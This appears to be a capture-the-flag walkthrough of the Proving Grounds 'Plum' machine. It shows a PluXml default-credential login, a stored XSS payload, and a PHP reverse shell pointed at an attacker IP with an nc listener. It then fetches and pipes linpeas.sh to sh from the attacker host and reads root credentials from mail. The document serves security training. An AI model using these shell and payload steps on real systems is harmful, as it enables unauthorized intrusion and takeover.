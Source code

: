 ```yaml
---
title: Plum
date: 2023-11-29
tags:
  - OSCP
  - PG Practice
  - TJ Null
---
```


![info](./info.png)

# Recon

## Nmap
```
nmap -sC -sV -p- --open <ip>
```

![nmap](./nmap.png)
There is a web application built with PluXml.

---

Browsing the web application, there is an admin login.
![admin](./admin.png)

The login credentials are simple `admin:admin`
![login](./login.png)

Notice that the url ends in `.php` like `http://192.168.165.28/core/admin/index.php?page=1`
- Also, the version of PluXml is shown 

Searching for the version of PluXml unveils a [remote code execution exploit and a cross site scripting vulnerability](https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf).


# Cross-Site Scripting
An article can be created with the following
1. Click on **New Article**
2. In any input box, use the following payload
```
<script>alert(1)</script>
```
- This will inject a JavaScript script and will run under the context of the user who clicks on the link to the article seen below
![xss](./xss.png)

3. Save the draft and publish the article.

When clicking on the link that is generated after publishing the article, an alert is generated. This confirms the cross-site scripting vulnerability.
- In this case the link is `http://192.168.165.28/index.php?article2/test1`

## Remote Code Execution
Go to **Static Pages** and edit a page.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Replace the content with the php script.
- replace the IP address for your listener IP
- use the port that is configured to listen (4444)
```
$VERSION = "1.0";
$ip = '192.168.45.212';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
```

Start a netcat listener in a linux command line.
``` bash
nc -lnvp 4444
```

Save the page and click **View page Static 1 on site**
- a connection will be made with the php server
![shell](./shell.png)

### Linux Privilege Escalation
#### Linpeas.sh
Using [linpeas.sh](https://linpeas.sh/), start a python server in the directory with linpeas.sh
```
┌──(kali㉿kali)-[/opt]
└─$ ls            
linpeas.sh

┌──(kali㉿kali)-[/opt]
└─$ python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In the netcat listener run the following command to fetch and run the `.sh` script.
```
curl {IP}/linpeas.sh | sh
```

Going through the linpeas output, there is an interesting mail section
![mail](./mail.png)

Looking at the contents of `/var/mail/www-data` the credentials for the root user can be found
![root](./root.png)

Use this password when switching to the root user with `su root`
![switch](./switch.png)

The flag (local.txt) can be found in the `/var/www` directory.
The flag (proof.txt) can be found in the `/root` directory.

# Summary

Vulnerabilities in the PluXml web application were exploited, including an **_XSS flaw_** and **_remote code execution_**. I was able to gain access, escalate privileges using Linpeas.sh, and find root credentials in mail logs

Join me for the next machine soon for more exciting challenges and security insights!

+10 points